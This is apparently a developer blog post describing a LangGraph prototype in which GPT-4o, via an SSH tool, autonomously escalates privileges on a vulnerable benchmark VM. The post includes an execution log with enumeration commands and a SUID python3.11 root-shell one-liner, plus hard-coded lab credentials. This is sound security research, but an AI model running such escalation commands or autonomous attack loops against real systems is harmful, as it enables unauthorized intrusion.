

First Steps and Initial Version
This started when Jürgen contacted Andreas as he needed an automated attacker emulation for one of his defensive projects. Andreas wrote the initial version of hackingBuddyGPT in March 2023 (roughly 18 months ago) and much of the codebase was written for older, less-sophisticated, LLMs. Juergen had experience with LangGraph, so we decided to play around with using langgraph for offensive security.
Scencario and Starting Situation
As an initial example we have chosen Linux Privilege Escalation: in these scenarios, you already have access to a linux system (typically over SSH) as a low-privilege user and want to become the all powerful root user.
As a starting point, we were using both langgaph's quickstart tutorial for rough guidance, as well as Andreas' original SSH connector to connect to a vulnerable virtual machine provided by ipa-lab/benchmark-privesc-linux (also originally written by Andreas).
The following langgraph pages give good background knowledge:
- The Langgraph starting page
- Langraph QuickStart (part of the tutorial series)
- More information about
tool usagecan also be found within the documentation
The First Prototype
So as a starting point we want to replicate the functonality of hackingBuddyGPT in the most simple and abstract way. Think of it like this:

You have a vulnerable VM that allows for the execution of arbitrary commands via SSH. We want to use a LLM (OpenAI GPT4o in this example) to internally think of a strategy and execute commands until our goal of becoming root is reached, in which case we terminate.
This prototype source code can be found in the github history. If you look into the current main branch, the current source code will look differently.
We split the functionality into two files: ssh.py for all the SSH callouts performed by the prototype, and initial_version.py containg the actual prototype logic.
Tool-Calling: enable SSH command execution
Tools allow LLMs to access external operations. In our case, we want LLMs to execute commands over SSH on a remote host. Let's go through parts of the code in ssh.py:
| ssh.py: Declare the Tool Function | |
|---|---|
We initially started by using langchain's @tool annotation (line 33). This will later allow LLMs to call the ssh_execute_command function. It is important to give a good docstring, as this will be automatically be used to explain the purpose of the tool to the LLM. Parameters and output values will automagically be matched too!
| ssh.py: Open the SSH connection | |
|---|---|
This is ugly hard-coded cruft. We open a SSH connection to a hard-coded target host. We will make this configurable in the next blog post.
This is the actual code that executes a SSH command and captures it's output. This is also old cruft and hopefully looks better in the current version within the repository.
The import thing to note is line 63: here we return the output of the executed command as string from the fuction. LangChain will take this output and return it to the LLM as result of the tool call.
The Privilege Escalation Prototype
Let's go the 'meat' of the code, the langgraph agent in initial_version.py:
| initial_version.py: Setup | |
|---|---|
Lots of stuff going on here in the background. We're using python-dotenv through calling load_dotenv. This looks for a .env file in the curent working directory and load environmental variables from it (if they are not already configured within the environment). Variables like these are typically used to pass API-keys and similar to programs.
The one environmental variable in use is OPENAI_API_KEY which is used to connect to OpenAI. Lines 19-23 were copied from the quickstart. They check if the environable variable is set and ask the user for it otherwise. This variable itself will be used by langchain and langgraph itself, so we do not have to do anything with it explicitely.
| initial_version.py: Connect to the LLM and setup Tools | |
|---|---|
Now we create a connection to the LLM (gpt-4o in our case) and register some tools that the LLM is allowed to use. As tool, we are using the ssh_execute_command function we described before.
| initial_version.py: Begin with our Graph | |
|---|---|
Now it gets interessting: we start with defining our langgraph graph. Within langgraph, you are using Nodes and Edges. The nodes in your graph are the "action points". Those are the locations, where you perform operations or ask a LLM to decide or perform stuff for you. Within the python code, each node will be implemented as a python function (see below). Edges define, which nodes are allowed to pass on information to other nodes.
The information passed between nodes is stored in the State. In our case, we just use a list of messages. Annotated is from python's typing library and allows us to add some metadata to the messages variable. In this case, we store the method add_messages as meta-data. Langgraph will know through this, that if new messages are added, it will call add_messages to add the messages to the list. In our case, we just have a growing list, but you could implement a sliding window or some sort of compaction/compression mechnism through this.
Finally, we create our graph (named graph_builder). We tell it that State will be used to pass messages.
| initial_version.py: Our first node, the LLM call | |
|---|---|
Within those two lines, a lot happens! We define our first graph node (called chatbot as this was copied out of the tutorial). What is it doing? It takes all messages that are stored within the state (state["messages"]) and calls out to the LLM. As the first message in the list (as you will see below) is the task that the LLM should achieve, this will give the LLM the task as well as a history about all other actions that already have been taken.
The output of the LLM (typically a str) will be put into an array (and in turn put into a map), thus the output of the node will be, e.g., { "messages" : [ "the LLM output" ]}. As configured above, the add_messages method will be used to append this to state['messages'].
| initial_version.py: Let's build our graph | |
|---|---|
Let's start with finally creating our graph. We add our LLM-calling node (chatbot) and then add a predefined ToolNode. This is a node that will receive messages about calling tools, e.g., allowing the LLM to interact with the world. To let it know which tools are supported, we pass the same tools into it as we registered with the LLM (makes sense, both should know the same tool calls or would get out-of-sync).
Then we start to create the edges between our nodes. There are special START and END nodes that denote the graphs starting and ending points (d'oh, lines 59 and 62). We connect the chatbot to the tool node on line 60, and connect back the tool node to the chatbot on line 61. So the LLM bot might create a message for the user (the result to the incoming question) or might create a tool-call message. The Tool node would take the tool-call message and interact with the external world and then pass back the result to the LLM node.
This creates an infinite loop and we cannot have that, can we? This is why on line 60 we define a condition edge: this is an edge with a condition that can dynamically select the next action (node) to perform. To do this, we define the route_tools method:
This was copied verbose from the tutorial. In summary, it checks if there's a message within the state. If it has a message and the message is a tool_calls message, i.e., we want to execute an external tool, the next node/action will be our tool node. Otherwise we go to the END node and finish our graph. Why does this work? Well, as long as there are tool calls, the tools will be executed and the results appended to the end of the message log. As soon as the LLM can find an answer, it will send out the answer (not a tool_call), thus the route_tools method will go to the END node.
| initial_version.py: finalize the graph! | |
|---|---|
Now we create the graph. What is MemorySaver? This stores our state between interactions (gives us a in-memory storage while running our agent).
Now, what to use as our initial message (this will be the first message within our `state['messages'] list and task our LLM to "do stuff"). We're using an adapted prompt from our hackingBuddyGPT prototype:
As this was taken from my old code, it still uses the Mako template engine (could be replaced with a f-String or similar by now). Also, note that we hard-coded the same credentials as within the SSHConnection before, we will fix this in the next blog-post.
The prompt itself is quite simple, isn't it?
| initial_version.py: Start and output it | |
|---|---|
Now, the final step: through graph.stream we start the graph and give it the initial task (the just mentioned question from template). Using stream_mode="values" (line 85) will create an event stream will the messages that are passing through the graph.
We use this events on line 88 to watch for potential changes. This allows us to output everything that is happening during exeuction.
The graph in it's full glory
You can use graph.get_graph().draw_mermaid() to get a mermaid diagram with our graph:

Execute it
Now you can start the prototype with python initial_version.py (I've cut out some noise, also the output will become better over time):
(venv) andy@cargocult:~/offensivegraphs/src$ python initial_version.py
================================ Human Message =================================
You are a low-privilege user lowpriv with password trustno1 on a linux system and your goal is to become the root user by executing commands on the remote system.
Do not repeat already tried escalation attacks. You should focus upon enumeration and privilege escalation. If you were able to become root, describe the used method as final message.
================================== Ai Message ==================================
To achieve privilege escalation on a Linux system, we need to follow a systematic approach that involves enumeration and identifying potential vulnerabilities or misconfigurations that can be exploited. Here's a step-by-step plan:
1. **System Enumeration**: Gather information about the system, including kernel version, installed software, running services, and scheduled tasks. This helps in identifying potential vulnerabilities.
2. **User and Group Information**: Check the current user's privileges, group memberships, and other users on the system. This can reveal misconfigurations or potential targets for privilege escalation.
3. **SUID and SGID Binaries**: Identify binaries with the SUID or SGID bit set, as they can sometimes be exploited to gain elevated privileges.
4. **World-Writable Files and Directories**: Look for files and directories that are world-writable, as they might be used to inject malicious code or scripts.
5. **Cron Jobs and Scheduled Tasks**: Examine cron jobs and other scheduled tasks for scripts or binaries that can be modified or exploited.
6. **Exploiting Vulnerabilities**: If any known vulnerabilities are found in the system or installed software, attempt to exploit them to gain root access.
7. **Kernel Exploits**: If the kernel is outdated, check for any known exploits that can be used to gain root access.
Let's start with the enumeration phase by executing some commands to gather information about the system. I'll run the following commands:
- `uname -a` to get the kernel version and system architecture.
- `id` to check the current user's privileges and group memberships.
- `find / -perm -4000 2>/dev/null` to list SUID binaries.
- `find / -perm -2000 2>/dev/null` to list SGID binaries.
- `find / -writable -type d 2>/dev/null` to find world-writable directories.
- `crontab -l` to list the current user's cron jobs.
- `cat /etc/crontab` to view system-wide cron jobs.
cmd executed: find / -perm -2000 2>/dev/null
result: /var/mail
/var/local
/var/log/journal
/var/log/journal/c9c36c71f63f41ba8d4b51f857984e51
/run/log/journal
/usr/bin/crontab
/usr/bin/chage
/usr/bin/dotlockfile
/usr/bin/expiry
/usr/bin/ssh-agent
/usr/sbin/unix_chkpwd
cmd executed: find / -perm -4000 2>/dev/null
result: /usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/find
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/python3.11
/usr/bin/chsh
/usr/bin/umount
/usr/bin/sudo
/usr/bin/mount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
================================== Ai Message ==================================
Based on the enumeration results, here's what we have found:
1. **System Information**: The system is running Linux kernel version 6.1.0-26-amd64 on a Debian-based distribution.
2. **User Information**: The current user is `lowpriv` with UID 1001 and GID 1001, and is not part of any special groups.
3. **SUID Binaries**: There are several SUID binaries, including `/usr/bin/find`, `/usr/bin/sudo`, and `/usr/bin/python3.11`. These can potentially be exploited for privilege escalation.
4. **SGID Binaries**: There are several SGID binaries, but none immediately stand out as exploitable without further context.
5. **World-Writable Directories**: There are several world-writable directories, including `/var/tmp` and `/tmp`, which could be used for temporary file manipulation attacks.
6. **Cron Jobs**: There are no user-specific cron jobs for `lowpriv`, but there are system-wide cron jobs executed by the root user.
### Potential Exploitation Path
The presence of the SUID bit on `/usr/bin/python3.11` is particularly interesting. Python can be used to execute commands, and if it retains the SUID privileges, it might allow us to execute commands as the root user.
Let's attempt to exploit the SUID bit on Python to gain root access. We'll use the following command to spawn a root shell:
/usr/bin/python3.11 -c 'import os; os.setuid(0); os.system("/bin/sh")'
I'll execute this command on the remote system.
Tool Calls:
ssh_execute_command (call_zOm9FJFanxtnXxZpxzb8Y6UR)
Call ID: call_zOm9FJFanxtnXxZpxzb8Y6UR
Args:
command: /usr/bin/python3.11 -c 'import os; os.setuid(0); os.system("/bin/sh")'
TIMEOUT! Could we have become root?
cmd executed: /usr/bin/python3.11 -c 'import os; os.setuid(0); os.system("/bin/sh")'
result: #
================================= Tool Message =================================
Name: ssh_execute_command
#
================================== Ai Message ==================================
I successfully gained root access by exploiting the SUID bit on `/usr/bin/python3.11`. By using Python's ability to execute system commands and setting the user ID to 0 (root), I was able to spawn a root shell. This method allowed me to escalate privileges from the low-privilege user `lowpriv` to the root user.
I find this fairly impressive..
Next Steps and TODOs
There are some things that need to be cleaned up.
switch from the @tool-annotation to the BaseModel base-class to allow tool configuration. We want to setup the SSH-connection (hostname, username, password) in the beginning and not hard-code it within our code. This will also clean-up our configuration handling.
The langchain library itself offers simple templating (PromptTemplate) thus making using a seperate mako template engine superficious. Sometime after I wrote this documention, I replaced the mako template with:
template = PromptTemplate.from_template("""
You are a low-privilege user {username} with password {password} on a linux system and your goal is to become the root user by executing commands on the remote system.
Do not repeat already tried escalation attacks. You should focus upon enumeration and privilege escalation. If you were able to become root, describe the used method as final message.
""").format(username=conn.username, password=conn.password)